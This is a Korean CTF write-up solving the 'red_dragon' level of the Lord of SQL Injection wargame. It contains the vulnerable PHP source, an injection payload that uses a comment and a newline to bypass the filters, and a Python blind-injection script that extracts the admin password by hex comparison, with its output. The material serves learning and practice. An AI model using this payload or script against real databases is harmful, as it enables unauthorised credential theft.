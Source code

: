 ```yaml
---
title: "[Lord of SQL Injection] LoS - red_dragon 문제풀이"
date: 2018-09-08
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


정신 차려보니 `green_dragon` 문제를 푼지 벌써 2주가 지나있다.
그동안 휴가도 다녀오고 휴가를 다녀오느라 못한 일들을 하느라 정신이 없었다.
`red_dragon`을 오랜만에 풀어보았는데 좀 어려웠다 ㅠㅠ  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

이번엔 `id`와 `no`를 입력 받는다.
그런데 `id`는 `7글자`를 넘을 수 없고, `no`에는 순전히 `숫자`만 들어갈 수 있다.
그래서 처음에는 `id가 admin인 행의 no를 찾아보자!`라고 생각했는데, `no`가 아무래도 작은 수는 아닌가보다.
그리고 문제를 풀려면 정확한 pw의 값이 필요한데, 이 방법으로는 그걸 알아낼 수도 없다.
한참을 고민했는데 모르겠어서 주변의 `웹잘알`님께 물어보았다.
그랬더니 아래와 같은 방법을 알려주었다.  

```plain
?id='||pw>%23&no=%0a0x61
```

이렇게 입력하면 완성되는 쿼리는 다음과 같다.  

```mysql
select id from prob_red_dragon where id=''||pw>#' and no=
0x61
```

`no=` 다음에 `%0a`를 입력했기 때문에 뒤의 `0x61`은 다음 줄에 들어간다.
`#`은 `MySQL`에서 한 줄 주석 문자이며, `MySQL`에서는 여러 줄에 걸쳐 쿼리를 입력할 수 있다.
그래서 위의 쿼리문에서 주석처리되는 부분과 개행을 빼고 깔끔하게 정리하면 아래와 같이 된다.  

```mysql
select id from prob_red_dragon where id=''||pw>0x61
```

헤...
이러면 한 글자 씩 pw를 비교할 수 있다!
아래는 내 서버에서 테스트 해 본 결과이다.  

```bash
mysql> select * from user where id='admin' and pw>0x61;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x62;
Empty set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6172;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.01 sec)

mysql> select * from user where id='admin' and pw>0x6174;
Empty set (0.00 sec)
```

위와 같이 pw를 한 글자 씩 비교할 수 있는데, `=`이 아닌 `>`를 통해 비교하고 있기 때문에 결과값이 나오지 않는 순간의 직전 값이 pw의 정확한 값이 된다.
따라서 문제에서 pw의 값을 `hex` 값으로 비교를 하다가 `Hello admin`이 안나온다면 그 값에서 `-1`을 한 값이 pw가 된다.
그런데 마지막 글자를 찾을 때는 다르다.  

```bash
mysql> select * from user where id='admin' and pw>0x6173646177717764;
+---------+----------+
| id      | pw       |
+---------+----------+
| admin   | asdawqwe |
+---------+----------+
1 row in set (0.00 sec)

mysql> select * from user where id='admin' and pw>0x6173646177717765;
Empty set (0.00 sec)
```

위의 예시에서도 알 수 있듯이 마지막 글자는 `Hello admin`이 나오지 않은 값이 정확한 pw의 값이다.
이를 바탕으로 아래와 같이 코드를 구현했다.  

```python
import requests

flag = "0x"

url = "http://los.rubiya.kr/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php?id="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, 20):
	found = False
	for i in range(48, 128):
		try:
			query = url + "'||pw>%23&no=%0a" + flag + hex(i)[2:]
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' not in r.text:
			flag += str(hex(i - 1))[2:]
			print "[+] Found " + str(j), ":", flag
			found = True
			break
	if not found:
		print "[+] Found password finished"
		break
	
flag = flag[2:].decode("hex")
flag = flag[:-1] + chr(ord(flag[-1]) + 1)
print "[+] Found password : ", flag
print "[+] End"
```

pw의 길이를 모르기 때문에 일단 20까지 반복문을 돌렸다.
그리고 마지막 글자는 `Hello admin`이 나오지 않은 그 순간의 값이기 때문에 다시 `+1`을 해 출력 해 주었다.
그 결과 다음과 같았다.  

```bash
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 0x41
[+] Found 2 : 0x4135
[+] Found 3 : 0x413533
[+] Found 4 : 0x41353344
[+] Found 5 : 0x4135334444
[+] Found 6 : 0x413533444434
[+] Found 7 : 0x41353344443436
[+] Found 8 : 0x4135334444343640
[+] Found password finished
[+] Found password :  A53DD46A
[+] End
```

이 전의 문제에서도 pw의 값은 소문자였기 때문에 이번에도 아래와 같이 소문자로 입력 해 주었다.  

```plain
?pw=a53dd46a
```

그 결과 문제를 풀 수 있었다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_red_dragon where id='' and no=1
----------------------------------------------------------------------------------

RED_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET['id'])) exit("No Hack ~_~");
  if(strlen($_GET['id']) > 7) exit("too long string");
  $no = is_numeric($_GET['no']) ? $_GET['no'] : 1;
  $query = "select id from prob_red_dragon where id='{$_GET[id]}' and no={$no}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_red_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] === $_GET['pw'])) solve("red_dragon");
  highlight_file(__FILE__);
?>
```

---

```plain
RED_DRAGON Clear!!
```